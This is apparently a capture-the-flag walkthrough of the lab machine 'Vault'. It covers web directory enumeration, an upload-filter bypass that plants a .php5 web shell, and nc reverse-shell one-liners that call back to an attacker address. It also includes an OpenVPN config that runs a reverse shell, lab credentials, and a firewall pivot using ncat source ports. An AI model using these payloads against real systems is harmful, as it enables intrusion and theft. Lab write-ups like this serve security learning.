




# Vault
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.109 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-23 19:19 BST
Warning: 10.10.10.109 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.109 (10.10.10.109)
Host is up (0.12s latency).
Not shown: 56547 filtered tcp ports (no-response), 8986 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 133.42 seconds

```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.109 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-23 19:21 BST
Nmap scan report for 10.10.10.109 (10.10.10.109)
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a6:9d:0f:7d:73:75:bb:a8:94:0a:b7:e3:fe:1f:24:f4 (RSA)
|   256 2c:7c:34:eb:3a:eb:04:03:ac:48:28:54:09:74:3d:27 (ECDSA)
|_  256 98:42:5f:ad:87:22:92:6d:72:e6:66:6c:82:c1:09:83 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.13 seconds

```

- Web server



- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.109 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.109
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 291]
/index.php            (Status: 200) [Size: 299]

```

- We saw an announcement about the first client: `sparklays`
  - Let's try `feroxbuster` that endpoint
```
└─$ feroxbuster -u http://10.10.10.109/sparklays -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,html --depth 3

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.109/sparklays
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, html]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 3
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      316c http://10.10.10.109/sparklays => http://10.10.10.109/sparklays/
200      GET        3l        2w       16c http://10.10.10.109/sparklays/login.php
200      GET       13l       38w      615c http://10.10.10.109/sparklays/admin.php
301      GET        9l       28w      323c http://10.10.10.109/sparklays/design => http://10.10.10.109/sparklays/design/
301      GET        9l       28w      331c http://10.10.10.109/sparklays/design/uploads => http://10.10.10.109/sparklays/design/uploads/
200      GET       18l       43w      484c http://10.10.10.109/sparklays/design/changelogo.php
200      GET        3l        8w       72c http://10.10.10.109/sparklays/design/design.html


```

## Foothold
- Nothing interesting on http://10.10.10.109/sparklays/login.php and http://10.10.10.109/sparklays/admin.php
  - But http://10.10.10.109/sparklays/design/design.html has upload page




- Let's play around with it
  - I tried uploading `php` file, looks like there's a file type check


- We could try one of the following methods to bypass the check
  - https://book.hacktricks.xyz/pentesting-web/file-upload#bypass-file-extensions-checks
  - Let's start with changing extensions
  - I will use `Burp Intruder`
    - [Wordlist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)


- Start the attack
  - We have a few hits



- And we have our web shell
```
└─$ curl -s 'http://10.10.10.109/sparklays/design/uploads/shell.php5' -d 'cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- Let's get reverse shell
  - https://www.revshells.com/
```
└─$ curl -s 'http://10.10.10.109/sparklays/design/uploads/shell.php5' -d 'cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.16.9%206666%20%3E%2Ftmp%2Ff'
```
```
└─$ nc -vlnp 6666
listening on [any] 6666 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.109] 50608
bash: cannot set terminal process group (1383): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/sparklays/design/uploads$ 
```

## User
- We have a 3 files inside `dave`'s desktop
  - One contains potential creds
```
www-data@ubuntu:/$ ls -lha /home/dave/Desktop/
total 20K
drwxr-xr-x  2 dave dave 4.0K Jun  2  2021 .
drwxr-xr-x 18 dave dave 4.0K Jun  2  2021 ..
-rw-rw-r--  1 alex alex   74 Jul 17  2018 Servers
-rw-rw-r--  1 alex alex   14 Jul 17  2018 key
-rw-rw-r--  1 alex alex   20 Jul 17  2018 ssh
www-data@ubuntu:/$ ls -lha /home/dave/Desktop/ssh 
-rw-rw-r-- 1 alex alex 20 Jul 17  2018 /home/dave/Desktop/ssh
www-data@ubuntu:/$ cat /home/dave/Desktop/ssh 
dave
Dav3therav3123
www-data@ubuntu:/$ cat /home/dave/Desktop/key 
itscominghome
www-data@ubuntu:/$ cat /home/dave/Desktop/Servers 
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
www-data@ubuntu:/$ 

```

- We can `su` as `dave`
  - or `ssh`
```
www-data@ubuntu:/$ su - dave
Password: 
dave@ubuntu:~$
```
```
└─$ sshpass -p 'Dav3therav3123' ssh dave@10.10.10.109 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

222 packages can be updated.
47 updates are security updates.

Last login: Sun Sep  2 07:17:32 2018 from 192.168.1.11
dave@ubuntu:~$ 

```
## Root
- We saw a note with `dns` and `firewall` ip addresses
  - Checking our network configs shows that we have additional interface within the same subnet
```
dave@ubuntu:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:ea:e6 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.109/24 brd 10.10.10.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:eae6/64 scope global mngtmpaddr dynamic 
       valid_lft 86399sec preferred_lft 14399sec
    inet6 fe80::250:56ff:feb9:eae6/64 scope link 
       valid_lft forever preferred_lft forever
3: virbr0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether fe:54:00:17:ab:49 brd ff:ff:ff:ff:ff:ff
    inet 192.168.122.1/24 brd 192.168.122.255 scope global virbr0
       valid_lft forever preferred_lft forever
4: virbr0-nic: <BROADCAST,MULTICAST> mtu 1500 qdisc pfifo_fast state DOWN group default qlen 1000
    link/ether 52:54:00:ff:fd:68 brd ff:ff:ff:ff:ff:ff
5: vnet0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast master virbr0 state UNKNOWN group default qlen 1000
    link/ether fe:54:00:17:ab:49 brd ff:ff:ff:ff:ff:ff
    inet6 fe80::fc54:ff:fe17:ab49/64 scope link 
       valid_lft forever preferred_lft forever
6: vnet1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast master virbr0 state UNKNOWN group default qlen 1000
    link/ether fe:54:00:3a:3b:d5 brd ff:ff:ff:ff:ff:ff
    inet6 fe80::fc54:ff:fe3a:3bd5/64 scope link 
       valid_lft forever preferred_lft forever
7: vnet2: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast master virbr0 state UNKNOWN group default qlen 1000
    link/ether fe:54:00:e1:74:41 brd ff:ff:ff:ff:ff:ff
    inet6 fe80::fc54:ff:fee1:7441/64 scope link 
       valid_lft forever preferred_lft forever
8: vnet3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast master virbr0 state UNKNOWN group default qlen 1000
    link/ether fe:54:00:c6:70:66 brd ff:ff:ff:ff:ff:ff
    inet6 fe80::fc54:ff:fec6:7066/64 scope link 
       valid_lft forever preferred_lft forever
```

- If we check `ps -aux`, we see `qemu`
  - So we have 3 vms: dns, firewall and vault
```
...
libvirt+   1790  0.5 17.0 2120288 684444 ?      Sl   Oct24   6:02 qemu-system-x86_64 -enable-kvm -name DNS -S -machine pc-i440fx-xenial,accel=kvm,usb=off -cpu qemu32 -m 1024 -realtime mlock=off -smp 1,sockets=1,cores=1,threads=1 -uuid 4
root       1808  0.0  0.0      0     0 ?        S    Oct24   0:00 [kvm-pit/1790]
libvirt+   1955  0.5 15.1 2120616 607720 ?      Sl   Oct24   5:57 qemu-system-x86_64 -enable-kvm -name Firewall -S -machine pc-i440fx-xenial,accel=kvm,usb=off -cpu qemu32 -m 1024 -realtime mlock=off -smp 1,sockets=1,cores=1,threads=1 -u
root       1973  0.0  0.0      0     0 ?        S    Oct24   0:00 [kvm-pit/1955]
libvirt+   2051  0.4 14.6 2120288 589444 ?      Sl   Oct24   5:35 qemu-system-x86_64 -enable-kvm -name Vault -S -machine pc-i440fx-xenial,accel=kvm,usb=off -cpu qemu32 -m 1024 -realtime mlock=off -smp 1,sockets=1,cores=1,threads=1 -uuid
root       2068  0.0  0.0      0     0 ?        S    Oct24   0:00 [kvm-pit/2051]
...
```

- We can perform ping sweep
```
dave@ubuntu:~$ for i in {1..254}; do (ping -c 1 192.168.122.${i} | grep "bytes from" &); done
64 bytes from 192.168.122.1: icmp_seq=1 ttl=64 time=0.091 ms
64 bytes from 192.168.122.4: icmp_seq=1 ttl=64 time=1.46 ms
64 bytes from 192.168.122.5: icmp_seq=1 ttl=64 time=2.15 ms
```

- Let's do port scan using `nc`
```
dave@ubuntu:~$ nc -zv 192.168.122.4 1-65535 2>&1 | grep -v refused
Connection to 192.168.122.4 22 port [tcp/ssh] succeeded!
Connection to 192.168.122.4 80 port [tcp/http] succeeded!
```
```
dave@ubuntu:~$ nc -zv 192.168.122.5 1-65535 2>&1 | grep -v refused
```

- 2 port open on `DNS`, while nothing on `firewall`
  - I'll enable dynamic port forwarding
```
└─$ sshpass -p 'Dav3therav3123' ssh dave@10.10.10.109 -D 9001
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

222 packages can be updated.
47 updates are security updates.

Last login: Wed Oct 25 07:23:08 2023 from 10.10.16.9
dave@ubuntu:~$ 
```

- Let's open http://192.168.122.4/
  - Set `SOCKS` proxy in `Burp`
  


- First link http://192.168.122.4/dns-config.php doesn't work
  - But http://192.168.122.4/vpnconfig.php works



- Clicking `Test VPN` results in success


- There is a `RCE` via `OpenVPN` config
  - https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da
  - https://www.bleepingcomputer.com/news/security/downloading-3rd-party-openvpn-configs-may-be-dangerous-heres-why/
  - I'll launch a listener inside 
  - The config which we will send to get a reverse shell
```
remote 192.168.122.1
ifconfig 10.200.0.2 10.200.0.1
dev tun
script-security 2
up "/bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.122.1 6666 >/tmp/f'"
nobind
```

- Upload a config and hit test
```
dave@ubuntu:~$ nc -vlnp 6666
Listening on [0.0.0.0] (family 0, port 6666)
Connection from [192.168.122.4] port 6666 [tcp/*] accepted (family 2, sport 48906)
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
- `dave`'s folder contains `ssh` file with creds
```
root@DNS:/home/dave# cat ssh
cat ssh
dave
dav3gerous567
```

- We can use creds to `ssh`
  - And `dave` is `sudo` user
```
root@DNS:/home/dave# groups dave        
groups dave
dave : dave sudo
```
```
dave@ubuntu:~$ ssh dave@192.168.122.4
dave@192.168.122.4's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

98 packages can be updated.
50 updates are security updates.


Last login: Mon Sep  3 16:38:03 2018
dave@DNS:~$ sudo -l
[sudo] password for dave: 
Matching Defaults entries for dave on DNS:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dave may run the following commands on DNS:
    (ALL : ALL) ALL
dave@DNS:~$ sudo su
root@DNS:/home/dave# 
```

- I found interesting entries in `alex` bash history
```
root@DNS:/home/dave# cat /home/alex/.bash_history 
...
rm interfaces
sudo su
ping 192.168.5.2
su root
nc -lvp 8888
...
```

- If we check routing table, we have a route to `192.168.5.0/24`
```
root@DNS:/home/dave# ip r
10.200.0.1 dev tun0  proto kernel  scope link  src 10.200.0.2 
192.168.5.0/24 via 192.168.122.5 dev ens3 
192.168.122.0/24 dev ens3  proto kernel  scope link  src 192.168.122.4 
```

- Let's check logs 
```
root@DNS:/home/dave# grep -arn "192.168.5.2" /var/log
/var/log/auth.log:349:Jul 17 16:49:01 DNS sshd[1912]: Accepted password for dave from 192.168.5.2 port 4444 ssh2
/var/log/auth.log:352:Jul 17 16:49:02 DNS sshd[1943]: Received disconnect from 192.168.5.2 port 4444:11: disconnected by user
/var/log/auth.log:353:Jul 17 16:49:02 DNS sshd[1943]: Disconnected from 192.168.5.2 port 4444
/var/log/auth.log:452:Jul 17 17:21:38 DNS sshd[1560]: Accepted password for dave from 192.168.5.2 port 4444 ssh2
/var/log/auth.log:455:Jul 17 17:21:38 DNS sshd[1590]: Received disconnect from 192.168.5.2 port 4444:11: disconnected by user
/var/log/auth.log:456:Jul 17 17:21:38 DNS sshd[1590]: Disconnected from 192.168.5.2 port 4444
/var/log/auth.log:474:Jul 17 21:58:26 DNS sshd[1171]: Accepted password for dave from 192.168.5.2 port 4444 ssh2
/var/log/auth.log:478:Jul 17 21:58:29 DNS sshd[1249]: Received disconnect from 192.168.5.2 port 4444:11: disconnected by user
/var/log/auth.log:479:Jul 17 21:58:29 DNS sshd[1249]: Disconnected from 192.168.5.2 port 4444
/var/log/auth.log:533:Jul 24 15:06:10 DNS sshd[1466]: Accepted password for dave from 192.168.5.2 port 4444 ssh2
/var/log/auth.log:536:Jul 24 15:06:10 DNS sshd[1496]: Received disconnect from 192.168.5.2 port 4444:11: disconnected by user
/var/log/auth.log:537:Jul 24 15:06:10 DNS sshd[1496]: Disconnected from 192.168.5.2 port 4444
/var/log/auth.log:540:Jul 24 15:06:26 DNS sshd[1500]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.5.2  user=dave
/var/log/auth.log:541:Jul 24 15:06:28 DNS sshd[1500]: Failed password for dave from 192.168.5.2 port 4444 ssh2
/var/log/auth.log:542:Jul 24 15:06:28 DNS sshd[1500]: Connection closed by 192.168.5.2 port 4444 [preauth]
/var/log/auth.log:543:Jul 24 15:06:57 DNS sshd[1503]: Accepted password for dave from 192.168.5.2 port 4444 ssh2
/var/log/auth.log:546:Jul 24 15:06:57 DNS sshd[1533]: Received disconnect from 192.168.5.2 port 4444:11: disconnected by user
/var/log/auth.log:547:Jul 24 15:06:57 DNS sshd[1533]: Disconnected from 192.168.5.2 port 4444
/var/log/auth.log:550:Jul 24 15:07:21 DNS sshd[1536]: Accepted password for dave from 192.168.5.2 port 4444 ssh2
/var/log/auth.log:553:Jul 24 15:07:21 DNS sshd[1566]: Received disconnect from 192.168.5.2 port 4444:11: disconnected by user
/var/log/auth.log:554:Jul 24 15:07:21 DNS sshd[1566]: Disconnected from 192.168.5.2 port 4444
/var/log/auth.log:1376:Sep  2 15:07:51 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/nmap 192.168.5.2 -Pn --source-port=4444 -f
/var/log/auth.log:1381:Sep  2 15:10:20 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 1234 --sh-exec ncat 192.168.5.2 987 -p 53
/var/log/auth.log:1383:Sep  2 15:10:34 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 3333 --sh-exec ncat 192.168.5.2 987 -p 53
N[��z<ssh:nottyalex192.168.122.1�N[��z<ssh:nottyalex192.168.122.1�N[��z�ssh:nottydave192.168.122.1N[��z�ssh:nottydave192.168.5.2d2W[���ssh:nottydave192.168.122.1�7W[��z�ssh:nottydave192.168.122.1▒8W[��z�ssh:nottydave192.168.122.18W[��z��tty1tty1dave�m9�[ܧ]ssh:nottydave192.168.122.1@�[��zcssh:nottydave192.168.122.1�T�[��z3\9�[#P
```

- We see that `nmap` is installed, let's use to port scan `192.168.5.2`
```
root@DNS:/home/dave# nmap 192.168.5.2 -Pn -f

Starting Nmap 7.01 ( https://nmap.org ) at 2023-10-25 16:39 BST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for Vault (192.168.5.2)
Host is up (0.0035s latency).
Not shown: 998 filtered ports
PORT     STATE  SERVICE
53/tcp   closed domain
4444/tcp closed krb524

Nmap done: 1 IP address (1 host up) scanned in 13.00 seconds
```

- Ports are closed, but if we set `--source-port=4444` identical to logs, we see `987` is open
  - Same goes for `--source-port=53`, 
```
root@DNS:/home/dave# nmap 192.168.5.2 -Pn -f --source-port=4444

Starting Nmap 7.01 ( https://nmap.org ) at 2023-10-25 16:40 BST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for Vault (192.168.5.2)
Host is up (0.0029s latency).
Not shown: 999 closed ports
PORT    STATE SERVICE
987/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 17.08 seconds
```

- If we check port `987` via `nc`, we receive `ssh` banner
```
root@DNS:/home/dave# nc 192.168.5.2 987 -p 53
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
```

- We can't set source port on `ssh`
  - But we saw entries in log: `COMMAND=/usr/bin/ncat -l 1234 --sh-exec ncat 192.168.5.2 987 -p 53`
  - It runs `ncat` listening to port `1234`
    - The option `--sh-exec` will execute command by passing it to `/bin/sh -c`
      - In our case we will have `/bin/sh -c "ncat 192.168.5.2 987 -p 53"`
    - So we will have a our netcat listening to port `1234` and redirecting everything to `ncat 192.168.5.2 987 -p 53`
  - Let's run it in the background mode and connect as `dave`
```
root@DNS:/home/dave# /usr/bin/ncat -l 1234 --sh-exec "ncat 192.168.5.2 987 -p 53" &
[1] 13700
root@DNS:/home/dave# ssh dave@localhost -p 1234
The authenticity of host '[localhost]:1234 ([::1]:1234)' can't be established.
ECDSA key fingerprint is SHA256:Wo70Zou+Hq5m/+G2vuKwUnJQ4Rwbzlqhq2e1JBdjEsg.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[localhost]:1234' (ECDSA) to the list of known hosts.
dave@localhost's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

96 packages can be updated.
49 updates are security updates.


Last login: Mon Sep  3 16:48:00 2018
dave@vault:~$ 
```

- Inside we have `root.txt.pgp`
```
dave@vault:~$ ls -lha
total 40K
drwxr-xr-x 5 dave dave 4.0K Sep  3  2018 .
drwxr-xr-x 4 root root 4.0K Jul 17  2018 ..
-rw------- 1 dave dave   11 Sep  3  2018 .bash_history
-rw-r--r-- 1 dave dave  220 Jul 17  2018 .bash_logout
-rw-r--r-- 1 dave dave 3.7K Jul 17  2018 .bashrc
drwx------ 2 dave dave 4.0K Jul 17  2018 .cache
drwxrwxr-x 2 dave dave 4.0K Sep  2  2018 .nano
-rw-r--r-- 1 dave dave  655 Jul 17  2018 .profile
-rw-rw-r-- 1 dave dave  629 Sep  3  2018 root.txt.gpg
drwx------ 2 dave dave 4.0K Jul 17  2018 .ssh
dave@vault:~$ 

```

- We can't do anything else, since we are inside `rbash`
  - Reconnect to `ssh` with `-t bash`
```
root@DNS:/home/dave# /usr/bin/ncat -l 1234 --sh-exec "ncat 192.168.5.2 987 -p 53" &
[1] 13705
root@DNS:/home/dave# ssh dave@localhost -p 1234 -t bash
dave@localhost's password: 
dave@vault:~$ 
```

- If we try to decrypt `gpg`, we receive an error
  - It relies on key stored in the local keyring
```
dave@vault:~$ gpg -d root.txt.gpg
gpg: encrypted with RSA key, ID D1EB1F03
gpg: decryption failed: secret key not available
```

- Let's move it to other hosts and try to decrypt it
```
dave@vault:~$ base32 -w0 root.txt.gpg 
QUBAYA6HPDDBBUPLD4BQCEAAUCMOVUY2GZXH4SL5RXIOQQYVMY4TAUFOZE64YFASXVITKTD56JHDLIHBLW3OQMKSHQDUTH3R6QKT3MUYPL32DYMUVFHTWRVO5Q3YLSY2R4K3RUOYE5YKCP2PAX7S7OJBGMJKKZNW6AVN6WGQNV5FISANQDCYJI656WFAQCIIHXCQCTJXBEBHNHGQIMTF4UAQZXICNPCRCT55AUMRZJEQ2KSYK7C3MIIH7Z7MTYOXRBOHHG2XMUDFPUTD5UXFYGCWKJVOGGBJK56OPHE25OKUQCRGVEVINLLC3PZEIAF6KSLVSOLKZ5DWWU34FH36HGPRFSWRIJPRGS4TJOQC3ZSWTXYPORPUFWEHEDOEOPWHH42565HTDUZ6DPJUIX243DQ45HFPLMYTTUW4UVGBWZ4IVV33LYYIB32QO3ONOHPN5HRCYYFECKYNUVSGMHZINOAPEIDO7RXRVBKMHASOS6WH5KOP2XIV4EGBJGM4E6ZSHXIWSG6EM6ODQHRWOAB3AGSLQ5ZHJBPDQ6LQ2PVUMJPWD2N32FSVCEAXP737LZ56TTDJNZN6J6OWZRTP6PBOERHXMQ3ZMYJIUWQF5GXGYOYAZ3MCF75KFJTQAU7D6FFWDBVQQJYQR6FNCH3M3Z5B4MXV7B3ZW4NX5UHZJ5STMCTDZY6SPTKQT6G5VTCG6UWOMK3RYKMPA2YTPKVWVNMTC62Q4E6CZWQAPBFU7NM652O2DROUUPLSHYDZ6SZSO72GCDMASI2X3NGDCGRTHQSD5NVYENRSEJBBCWAZTVO33IIRZ5RLTBVR7R4LKKIBZOVUSW36G37M6PD5EZABOBCHNOQL2HV27MMSK3TSQJ4462INFAB6OS7XCSMBONZZ26EZJTC5P42BGMXHE27464GCANQCRUWO5MEZEFU2KVDHUZRMJ6ABNAEEVIH4SS65JXTGKYLE7ED4C3UV66ALCMC767DKJTBKTTAX3UIRVNBQMYRI7XY=
```
```
dave@ubuntu:~$ nano flag
dave@ubuntu:~$ base32 -d flag > flag.gpg
```

- `dns` had the same issue, but original box was successful
  - And the passphrase is located in `dave`'s desktop in `key` file
```
dave@ubuntu:~$ gpg -d flag.gpg 

You need a passphrase to unlock the secret key for
user: "david <dave@david.com>"
4096-bit RSA key, ID D1EB1F03, created 2018-07-24 (main key ID 0FDFBFE4)

gpg: encrypted with 4096-bit RSA key, ID D1EB1F03, created 2018-07-24
      "david <dave@david.com>"
ca468370b91d1f5906e31093d9bfe819
```
```
dave@ubuntu:~/Desktop$ cat key 
itscominghome
```